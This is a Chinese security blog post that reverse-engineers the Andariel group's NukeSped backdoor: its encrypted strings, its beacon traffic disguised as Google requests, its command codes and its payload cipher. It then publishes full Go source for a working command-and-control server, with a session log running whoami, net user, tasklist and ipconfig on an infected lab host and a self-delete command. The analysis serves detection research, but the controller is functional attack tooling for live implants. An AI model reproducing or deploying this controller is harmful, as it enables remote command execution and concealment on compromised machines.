

# 逆向开发朝鲜Andariel组织下的NukeSped后门控制端 - 先知社区

逆向开发朝鲜Andariel组织下的NukeSped后门控制端

- - -

## 概述

最近，在浏览网络中威胁情报信息的时候，发现韩国AhnLab安全公司于2023年11月27日发布了一篇《Circumstances of the Andariel Group Exploiting an Apache ActiveMQ Vulnerability (CVE-2023-46604)》报告，此报告对朝鲜Andariel组织的攻击活动进行了剖析，报告末尾还对Andariel组织使用的NukeSped后门的通信行为进行了简要介绍。

基于报告内容，发现NukeSped后门在通信过程中，将通信流量伪装为正常的谷歌通信流量，虽然伪装的方式很简单，但在大容量网络流量分析过程中，若未对IP真实域名进行校验，则很容易将此恶意通信行为忽略，从而导致无法发现此恶意通信行为；因此，抱着学习研究的态度，笔者准备对NukeSped后门进行研究，准备从如下角度开展研究工作：

-   对NukeSped后门开展逆向分析工作，对其运行原理、远控指令进行详细剖析梳理；
-   对NukeSped后门的通信行为、通信模型进行详细分析梳理；
-   尝试构建NukeSped后门控制端，模拟复现NukeSped后门的远程控制行为及恶意流量。

## NukeSped后门控制端效果

通过分析，发现攻击者主要使用NukeSped后门执行命令，用于收集更多的受控主机信息，以下截图为攻击者实际攻击案例中使用的命令：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205154615-5e6639d2-9342-1.png)

通过构建NukeSped后门控制端程序，我们可模拟实现NukeSped后门的使用场景，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205154647-719088c8-9342-1.png)

相关操作命令如下：

```plain
F:\GolandProjects\awesomeProject1>awesomeProject1.exe
Server started. Listening on 0.0.0.0:8000
POST /login.php HTTP/1.1
Host: www.google.com
Connection: keep-alive
Cache-Control: max-age=0
Sec-Fetch-Mode: 10
Sec-Fetch-User: S-WIN-JMKXXXXXOT
Sec-Fetch-Dest: 01


请选择需执行的功能:exit、help、11、12、30、33、34
>help
********支持功能如下********
11：样本自删除
12：休眠1小时
30：向管道传输数据
33：创建进程，并返回进程回显信息
34：终止33指令运行的进程程序
**************************
请选择需执行的功能:exit、help、11、12、30、33、34
>33
33指令-请输入需执行的命令：quit-返回上层指令
>cmd.exe /c whoami
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 18


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00000023
Connection: keep-alive


win-JMKXXXXXOT\admin

33指令-请输入需执行的命令：quit-返回上层指令
>cmd.exe /c net user
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 20


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00000210
Connection: keep-alive


\\WIN-JMKXXXXXOT 的用户帐户

-------------------------------------------------------------------------------
admin                    Administrator            Guest
命令成功完成。


33指令-请输入需执行的命令：quit-返回上层指令
>cmd.exe /c tasklist
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 20


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00003434
Connection: keep-alive


映像名称                       PID 会话名              会话#       内存使用
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0         24 K
System                           4 Services                   0      4,308 K
smss.exe                       284 Services                   0        976 K
csrss.exe                      372 Services                   0      5,720 K
wininit.exe                    404 Services                   0      4,464 K
csrss.exe                      424 Console                    1     43,008 K
services.exe                   468 Services                   0      8,528 K
winlogon.exe                   500 Console                    1      6,132 K
lsass.exe                      512 Services                   0     10,048 K
lsm.exe                        528 Services                   0      3,864 K
svchost.exe                    636 Services                   0      8,696 K
svchost.exe                    712 Services                   0      8,556 K
svchost.exe                    796 Services                   0     22,480 K
svchost.exe                    848 Services                   0     12,256 K
svchost.exe                    888 Services                   0     35,232 K
svchost.exe                    128 Services                   0     13,460 K
svchost.exe                    584 Services                   0     72,576 K
spoolsv.exe                   1108 Services                   0      8,548 K
svchost.exe                   1136 Services                   0     13,068 K
VGAuthService.exe             1300 Services                   0      5,396 K
taskhost.exe                  1384 Console                    1      9,516 K
vm3dservice.exe               1468 Services                   0      3,720 K
vmtoolsd.exe                  1500 Services                   0     17,220 K
dwm.exe                       1512 Console                    1     66,216 K
vm3dservice.exe               1520 Console                    1      4,704 K
explorer.exe                  1552 Console                    1     71,684 K
svchost.exe                   1956 Services                   0      4,432 K
vmtoolsd.exe                  1220 Console                    1     26,444 K
WmiPrvSE.exe                  1832 Services                   0     18,108 K
dllhost.exe                   1636 Services                   0      9,500 K
msdtc.exe                     2236 Services                   0      6,096 K
SearchIndexer.exe             2528 Services                   0     38,948 K
svchost.exe                   2420 Services                   0     17,248 K
svchost.exe                   1040 Services                   0     35,604 K
ProcessHacker.exe             3452 Console                    1     31,608 K
taskhost.exe                  3616 Console                    1     16,824 K
iFlyInput.exe                  292 Console                    1     48,404 K
iFlyPlatform.exe              1284 Console                    1     13,888 K
NukeSped_1.exe                2156 Console                    1      4,920 K
cmd.exe                       1360 Console                    1      3,216 K
conhost.exe                   3440 Console                    1      8,996 K
tasklist.exe                  2852 Console                    1      6,536 K

33指令-请输入需执行的命令：quit-返回上层指令
>cmd.exe /c ipconfig /all
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 25


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00002322
Connection: keep-alive


Windows IP 配置

   主机名  . . . . . . . . . . . . . : WIN-JMKXXXXXOT
   主 DNS 后缀 . . . . . . . . . . . :
   节点类型  . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . . . . . : 否
   WINS 代理已启用 . . . . . . . . . : 否
   DNS 后缀搜索列表  . . . . . . . . : localdomain

以太网适配器 Bluetooth 网络连接:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :
   描述. . . . . . . . . . . . . . . : Bluetooth 设备(个人区域网)
   物理地址. . . . . . . . . . . . . : 34-XX-XX-XX-58-A2
   DHCP 已启用 . . . . . . . . . . . : 是
   自动配置已启用. . . . . . . . . . : 是

以太网适配器 本地连接:

   连接特定的 DNS 后缀 . . . . . . . : localdomain
   描述. . . . . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   物理地址. . . . . . . . . . . . . : 00-0C-XX-XX-2F-B1
   DHCP 已启用 . . . . . . . . . . . : 是
   自动配置已启用. . . . . . . . . . : 是
   本地链接 IPv6 地址. . . . . . . . : fe80::XXXX:XXXX:XXXX:fdfc%11(首选)
   IPv4 地址 . . . . . . . . . . . . : 192.168.126.135(首选)
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   获得租约的时间  . . . . . . . . . : 2023年12月5日 10:25:00
   租约过期的时间  . . . . . . . . . : 2023年12月5日 14:39:59
   默认网关. . . . . . . . . . . . . :
   DHCP 服务器 . . . . . . . . . . . : 192.168.126.254
   DHCPv6 IAID . . . . . . . . . . . : 234884137
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-XX-XX-XX-XX-XX-40-00-0C-29-95-9B-BD
   DNS 服务器  . . . . . . . . . . . : 192.168.126.1
   TCPIP 上的 NetBIOS  . . . . . . . : 已启用

隧道适配器 isatap.{8B288427-3826-4FFD-BF89-490C950BBA8A}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :
   描述. . . . . . . . . . . . . . . : Microsoft ISATAP Adapter
   物理地址. . . . . . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是

隧道适配器 isatap.localdomain:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . : localdomain
   描述. . . . . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   物理地址. . . . . . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是

33指令-请输入需执行的命令：quit-返回上层指令
>quit
请选择需执行的功能:exit、help、11、12、30、33、34
>11
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 11
Content-Length: 0


^C
F:\GolandProjects\awesomeProject1>
```

相关数据包截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205154707-7d541ec2-9342-1.png)

## 样本运行原理剖析

对《Circumstances of the Andariel Group Exploiting an Apache ActiveMQ Vulnerability (CVE-2023-46604)》报告中的内容进行分析，发现此报告中提及的NukeSped后门是一款“NukeSped Variant – Type 1”（NukeSped变体-类型1）样本；此样本的功能与历史发现的NukeSped样本功能略微不一样，根据报告中的描述，最近发现的攻击中使用的NukeSped版本仅支持三个命令：下载文件、执行命令和终止正在运行的进程。

**备注：实际分析发现存在5个远控指令，未提及指令为：样本自删除、休眠1小时：**

《Circumstances of the Andariel Group Exploiting an Apache ActiveMQ Vulnerability (CVE-2023-46604)》报告链接：[https://asec.ahnlab.com/en/59318/](https://asec.ahnlab.com/en/59318/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155429-84dc1324-9343-1.png)

翻译内容如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155447-8f4d0214-9343-1.png)

基于文章中披露的HASH（7699ba4eab5837a4ad9d5d6bbedffc18）信息，尝试从网络中下载并详细分析此样本，分析情况如下：

### 动态获取API

通过分析，发现样本在正式执行功能前，将调用解密算法获取API字符串，然后基于LoadLibraryA、GetProcAddress函数动态获取API地址，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155506-9a931064-9343-1.png)

### 加解密算法一

通过分析，发现样本文件中除API地址外，还有大量字符串数据也均被加密，加密方式均为：使用0xA1作为异或值，按字节进行异或运算，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155523-a4add17e-9343-1.png)

使用CyberChef工具对PE文件进行解密尝试，成功提取大量API函数及字符串数据，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155538-ae19f6d4-9343-1.png)

梳理相关解密字符串如下：**（基于解密字符串，其实可以大致推测此样本有外链通信、自删除等功能。）**

```plain
#字符串1
POST /login.php HTTP/1.1 
Host: www.google.com
Connection: keep-alive
Cache-Control: max-age=0
Sec-Fetch-Mode: %02d
Sec-Fetch-User: %s%s
Sec-Fetch-Dest: %02d

#字符串2
GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1 
Sec-Fetch-Mode: %02d
Content-Length: %08d
Connection: keep-alive

#字符串3
HTTP/1.1 200 OK 
Content-Type: text/html

#字符串4
Sec-Fetch-Mode:

#字符串5
Content-Length: 

#字符串6
:RA
del /F "C:\Users\admin\Desktop\1.exe"
if exist "C:\Users\admin\Desktop\1.exe" goto RA
del /F "C:\Users\admin\AppData\Local\Temp\uninst.bat"
```

### 上线请求

通过分析，发现样本运行后，将调用上线请求代码，上线请求IP地址使用“加解密算法一”进行加密，上线请求端口为固定端口，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155557-b95a74d8-9343-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155620-c6aa5770-9343-1.png)

随后，样本将基于“加解密算法一”节中的“字符串1”构建上线数据包，并调用send函数发起上线请求，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155639-d26c441a-9343-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155654-db425822-9343-1.png)

使用nc捕获请求数据，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205155712-e5b563a8-9343-1.png)

进一步对其上线请求数据包进行分析，发现有效数据如下：

-   Sec-Fetch-Mode：通信命令（10：初始连接）
-   Sec-Fetch-User：主机名（S-主机名）
-   Sec-Fetch-Dest：连接状态（01：初始连接）

### 上线响应

通过分析，发现样本上线请求成功后，控制端将发送上线响应数据，上线响应数据中将包含如下字段：

-   Sec-Fetch-Mode：通信命令
    
-   Content-Length：通信命令载荷长度
    

进一步分析梳理，共提取6个通信命令：

| 通信命令 | 命令描述 |
| --- | --- |
| 10  | 初始连接 |
| 11  | 样本自删除 |
| 12  | 休眠1小时 |
| 30  | 向管道传输数据 |
| 33  | 创建进程，并返回进程回显信息 |
| 34  | 终止33指令运行的进程程序 |

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160153-8da9d972-9344-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160216-9adcc30c-9344-1.png)

### 远控指令33

通过分析，梳理远控指令33的主要运行逻辑为：

-   从上线响应数据中，提取“Sec-Fetch-Mode”、“Content-Length”响应头内容；
-   基于“Content-Length”响应头内容，申请内存，内存大小为“Content-Length”响应头内容加2；
-   从上线响应数据中，提取加密命令行数据；
-   解密命令行数据；
-   基于“Sec-Fetch-Mode”响应头内容，执行对应远控指令33代码；
-   调用CreateProcessA函数，参数为上线响应数据中解密后的命令行数据；
-   基于CreatePipe、ReadFile函数，提取命令执行后的回显数据；
-   基于“加解密算法一”节中的“字符串2”构建数据包，加密回显数据作为请求载荷；
-   调用send函数发起网络请求；

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160236-a6ef0b0a-9344-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160251-b02288f0-9344-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160311-bbde3c02-9344-1.png)

### 加解密算法二

通过分析，发现样本在接收和发送通信载荷时，均会对数据进行加解密，相关解密函数代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160331-c7cb9b36-9344-1.png)

加密函数代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160352-d49b8bc8-9344-1.png)

进一步对其加解密代码进行分析，发现其加解密代码为对称加解密，解密算法原理为：按字节减3，然后再取反运算；

使用golang编写加解密代码如下：

```plain
func encode(buffer []byte) (output []byte) {
    output = make([]byte, len(buffer))
    for i := 0; i < len(buffer); i++ {
        output[i] = 3 + ^buffer[i]
    }
    return
}

func decode(buffer []byte) (output []byte) {
    output = make([]byte, len(buffer))
    for i := 0; i < len(buffer); i++ {
        output[i] = ^(buffer[i] - 3)
    }
    return
}
```

### 远控指令34

通过分析，梳理远控指令34的主要运行逻辑为：

-   从上线响应数据中，提取“Sec-Fetch-Mode”、“Content-Length”响应头内容；
-   若“Sec-Fetch-Mode”响应头内容为34，“Content-Length”响应头内容为0，则执行对应远控指令34代码；
-   调用TerminateThread、CloseHandle、TerminateProcess等函数，关闭释放远控指令33执行过程中申请的相关句柄；

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160409-deab6228-9344-1.png)

### 远控指令30

通过分析，梳理远控指令30的主要运行逻辑为：

-   从上线响应数据中，提取“Sec-Fetch-Mode”、“Content-Length”响应头内容；
-   基于“Content-Length”响应头内容，申请内存，内存大小为“Content-Length”响应头内容加2；
-   从上线响应数据中，提取加密载荷数据；
-   解密载荷数据；
-   基于“Sec-Fetch-Mode”响应头内容，执行对应远控指令30代码；
-   调用WriteFile函数向远控指令33执行过程中申请的管道传输数据；

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160439-f035a878-9344-1.png)

### 远控指令11

通过分析，梳理远控指令11的主要运行逻辑为：

-   从上线响应数据中，提取“Sec-Fetch-Mode”、“Content-Length”响应头内容；
-   若“Sec-Fetch-Mode”响应头内容为11，“Content-Length”响应头内容为0，则代码将退出通信交互循环体，直接跳转至样本自删除代码处；
-   解密自删除代码字符串，在TEMP目录中释放自删除bat文件；

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160512-03fba240-9345-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160527-0d471f0a-9345-1.png)

### 远控指令12

通过分析，梳理远控指令12的主要运行逻辑为：

-   从上线响应数据中，提取“Sec-Fetch-Mode”、“Content-Length”响应头内容；
-   若“Sec-Fetch-Mode”响应头内容为12，“Content-Length”响应头内容为0，则代码将跳转至样本休眠代码处；
-   休眠1小时后，样本将继续执行上线响应代码，接收来自控制端的上线响应数据；

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160546-18929b46-9345-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160605-235d8ce8-9345-1.png)

## 动态调试技巧

由于笔者准备自行构建NukeSped后门控制端，因此，在构建控制端时，需要对网络行为进行联动调试，在联动调试时，有一个小问题引起了笔者的关注，因此在这里记录一下，避免大家因为此小问题而浪费大量时间。

### 阻塞socket和非阻塞socket的调试技巧

-   问题描述

笔者在对网络通信进行调试的过程中，根据样本逻辑，编写了一个上线请求响应程序，由于NukeSped后门在接收上线响应数据时，调用了两次recv函数，因此笔者在上线请求响应程序中也尝试调用了两次send函数用于分别发送请求头和请求载荷。整体逻辑均没问题，但是在实际调试过程中，笔者却发现，在NukeSped后门程序接收上线响应数据时，第二次执行recv函数接收请求载荷时，总是失败。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160620-2c627b50-9345-1.png)

相关上线请求响应程序代码如下：

```plain
func sendcommond33(conn net.Conn, command string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + "33" + string(res_newline) + string(res3) + strconv.Itoa(len(command)+1) + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))

    conn.Write(encode(append([]byte(command), byte(00))))
}
```

-   问题成因

对第二次执行recv函数处的代码逻辑进行分析梳理，发现NukeSped后门程序使用的是非阻塞socket。

**阻塞socket与非阻塞socket的区别：**

```plain
阻塞和非阻塞是用于描述 socket 运行方式的两种模式。

阻塞 socket：当一个阻塞 socket 执行输入/输出操作时，程序将被阻塞直到操作完成。也就是说，在进行读取或写入操作期间，程序会一直等待，直到数据完全接收或发送成功，才能继续执行后续代码。如果没有数据可用，阻塞 socket 将一直等待数据到来。

非阻塞 socket：与阻塞 socket 不同，非阻塞 socket 在进行输入/输出操作时不会阻塞整个程序。在使用非阻塞 socket 进行读取操作时，如果没有可用的数据，它会立即返回一个错误或空值，而不是一直等待数据到来。同样地，在进行写入操作时，如果无法立即发送数据，非阻塞 socket 会立即返回一个错误。

主要区别如下：

阻塞 socket 的读取和写入操作会一直等待直到完成，而非阻塞 socket 的读取和写入操作会立即返回。
阻塞 socket 的执行速度相对较慢，因为它需要等待数据的到来或者传输完成。而非阻塞 socket 的执行速度相对较快，因为它可以立即返回并允许程序继续执行其他任务。
非阻塞 socket 可以通过轮询或使用异步事件处理机制来实现，可以提高程序的响应性和并发性。
使用阻塞 socket 还是非阻塞 socket 取决于具体的应用场景和需求。阻塞 socket 在简单应用中使用比较方便，而非阻塞 socket 更适用于需要同时处理多个连接或任务的情况。
```

-   问题解决

为解决上述调试过程中遇到的问题，可通过如下方法进行尝试：

1.使用调试模式调试运行上线请求响应程序，在发送上线响应数据代码中的第二个发送代码处下断点；

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160643-3a29621c-9345-1.png)

2.调试NukeSped后门，在第二次执行recv函数处下断点；

3.当调试NukeSped后门时，在调试第二次执行recv函数前，步过上线请求响应程序中的断点，则NukeSped后门将成功接收上线请求响应载荷，后续即可正常调试。

## 通信模型分析

基于上述样本分析情况，梳理样本通信模型如下：

-   NukeSped后门 --> NukeSped控制端

| 通信命令 | 命令描述 |
| --- | --- |
| 10  | 初始连接 |
| 30  | 命令执行成功 |
| 35  | 命令执行失败 |

-   NukeSped控制端 --> NukeSped后门

| 通信命令 | 命令描述 |
| --- | --- |
| 11  | 样本自删除 |
| 12  | 休眠1小时 |
| 30  | 向管道传输数据 |
| 33  | 创建进程，并返回进程回显信息 |
| 34  | 终止33指令运行的进程程序 |

详细通信数据如下：

### 上线请求

```plain
POST /login.php HTTP/1.1 
Host: www.google.com
Connection: keep-alive
Cache-Control: max-age=0
Sec-Fetch-Mode: 10
Sec-Fetch-User: S-WIN-XXXXXXX
Sec-Fetch-Dest: 01
```

### 远控功能

通过分析，样本上线后，上线响应即用于远程控制，通信载荷如下：

-   远控指令33

```plain
#远控指令
HTTP/1.1 200 OK 
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 18

..................  #加密载荷

#远控指令回显
GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1 
Sec-Fetch-Mode: 30
Content-Length: 00000023
Connection: keep-alive

....................... #加密载荷
```

-   远控指令34

```plain
HTTP/1.1 200 OK 
Content-Type: text/html
Sec-Fetch-Mode: 34
Content-Length: 0
```

-   远控指令11

```plain
HTTP/1.1 200 OK 
Content-Type: text/html
Sec-Fetch-Mode: 11
Content-Length: 0
```

相关数据包截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160703-467e40e6-9345-1.png)

## 模拟构建控制端

基于上述样本分析及通信模型分析，我们已经基本清楚整个样本的通信逻辑，逻辑上直接编写代码就可正常通信，但在实际操作过程中，往往还会遇到很多小问题，因此需要不断的编写测试代码与实际样本进行调试测试，才能最终实现样本的控制功能。

不过，总的来说，编写此样本的控制端还是比较轻松的，毕竟整个样本的功能比较简单，数据加解密也是使用的最简单的字节运算，通信指令也比较少，所以可以很快速的模拟并实现其控制端功能。

在这里，笔者将使用golang语言模拟构建NukeSped后门控制端，详细情况如下：

代码结构如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205160722-517ea256-9345-1.png)

-   main.go

```plain
package main

import (
    "awesomeProject1/common"
    "bufio"
    "fmt"
    "net"
    "os"
)

func main() {
    address := "0.0.0.0"
    port := "8000"

    // 创建监听器
    listener, err := net.Listen("tcp", address+":"+port)
    if err != nil {
        fmt.Println("Error listening:", err.Error())
        return
    }
    defer listener.Close()

    fmt.Println("Server started. Listening on " + address + ":" + port)

    for {
        conn, err := listener.Accept()
        if err != nil {
            fmt.Println("Error accepting connection:", err.Error())
            return
        }

        // 处理服务端连接
        go handle_NukeSped_Connection(conn)
    }
}

func handle_NukeSped_Connection(conn net.Conn) {
    defer conn.Close()

    recvdata := common.RecvHeader(conn)
    fmt.Println(string(recvdata))

    for {
        text := ""
        fmt.Print("请选择需执行的功能:exit、help、11、12、30、33、34\n>")
        reader := bufio.NewScanner(os.Stdin)
        if reader.Scan() {
            text = reader.Text()
            if text == "exit" {
                os.Exit(1)
            } else if text == "33" || text == "30" {
                for {
                    fmt.Print(text + "指令-请输入需执行的命令：quit-返回上层指令\n>")
                    reader2 := bufio.NewScanner(os.Stdin)
                    if reader2.Scan() {
                        buf_command := reader2.Text()
                        if buf_command == "quit" {
                            break
                        } else {
                            if text == "33" {
                                common.Command_33(conn, buf_command)
                            } else if text == "30" {
                                common.Command_30(conn, buf_command)
                            }
                        }
                    }
                }
            } else if text == "34" || text == "11" || text == "12" {
                common.Command_34(conn, text)
                if text == "11" {
                    break
                }
            } else if text == "help" {
                fmt.Println("********支持功能如下********")
                fmt.Println("11：样本自删除")
                fmt.Println("12：休眠1小时")
                fmt.Println("30：向管道传输数据")
                fmt.Println("33：创建进程，并返回进程回显信息")
                fmt.Println("34：终止33指令运行的进程程序")
                fmt.Println("**************************")
            }
        }
        if err := reader.Err(); err != nil {
            fmt.Fprintln(os.Stderr, "读取标准输入时发生错误:", err)
            os.Exit(1)
        }
    }
}
```

-   command.go

```plain
package common

import (
    "encoding/hex"
    "fmt"
    "net"
    "strconv"
    "strings"
    "time"
)

func Command_33(conn net.Conn, command string) {
    sendcommond33(conn, command)

    data_header := RecvHeader(conn)
    fmt.Println(string(data_header))

    data_len, _ := strconv.Atoi(strings.ReplaceAll(strings.Split(strings.Split(string(data_header), "Content-Length: ")[1], "Connection:")[0], "\r\n", ""))

    time.Sleep(500 * time.Millisecond)

    data_buf := recvBuf(conn, data_len)
    fmt.Println(string(BytesToGB2312(data_buf)))
}

func sendcommond33(conn net.Conn, command string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + "33" + string(res_newline) + string(res3) + strconv.Itoa(len(command)+1) + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))

    time.Sleep(2 * time.Second)

    conn.Write(encode(append([]byte(command), byte(00))))
}

func Command_30(conn net.Conn, command string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + "30" + string(res_newline) + string(res3) + strconv.Itoa(len(command)+1) + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))

    time.Sleep(2 * time.Second)

    conn.Write(encode(append([]byte(command), byte(00))))
}

func Command_34(conn net.Conn, text string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + text + string(res_newline) + string(res3) + "0" + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))
}
```

-   common.go

```plain
package common

import (
    "fmt"
    "golang.org/x/text/encoding/simplifiedchinese"
    "log"
    "net"
)

func RecvHeader(conn net.Conn) []byte {
    // 接收数据缓冲区
    buffer := make([]byte, 1024)
    // 从客户端接收数据
    bytesRead, err := conn.Read(buffer)
    if err != nil {
        fmt.Println("Error reading:", err.Error())
    }
    return buffer[:bytesRead]
}

func recvBuf(conn net.Conn, buflen int) []byte {
    // 接收数据缓冲区
    buffer := make([]byte, buflen)
    // 从客户端接收数据
    bytesRead, err := conn.Read(buffer)
    if err != nil {
        fmt.Println("Error reading:", err.Error())
    }
    buffer_de := []byte{}
    buffer_de = append(buffer_de, buffer[:bytesRead]...)

    return decode(buffer_de)
}

func encode(buffer []byte) (output []byte) {
    output = make([]byte, len(buffer))
    for i := 0; i < len(buffer); i++ {
        output[i] = 3 + ^buffer[i]
    }
    return
}

func decode(buffer []byte) (output []byte) {
    output = make([]byte, len(buffer))
    for i := 0; i < len(buffer); i++ {
        output[i] = ^(buffer[i] - 3)
    }
    return
}

func BytesToGB2312(buffer []byte) []byte {
    decoder := simplifiedchinese.GB18030.NewDecoder()
    utf8Bytes, err := decoder.Bytes(buffer)
    if err != nil {
        log.Fatal(err)
    }
    return utf8Bytes
}
```
